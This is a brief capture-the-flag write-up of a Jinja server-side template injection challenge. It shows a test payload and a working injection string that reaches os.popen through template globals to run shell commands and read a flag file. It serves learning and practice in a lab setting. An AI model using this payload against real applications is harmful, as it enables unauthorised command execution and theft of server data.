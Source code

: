 # SSTI1

This is a server-side template injection attack.

I tried normal input:

```text
hello world
```

Which worked, then tried a template:

```python
{{ 7*7 }}
```

Which produced 49. We're in! Jinja is in use through inspection of the response headers (shows Python).

Printed out `self`, found there was a `TemplateReference` object. If we print the `__globals__` for that object we find we can use builtins such as `os` and eventually `popen` to run subprocess commands. With `ls` we found there was a `flag` file. All that's left is to print the contents and we retrieve our flag:

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}
```

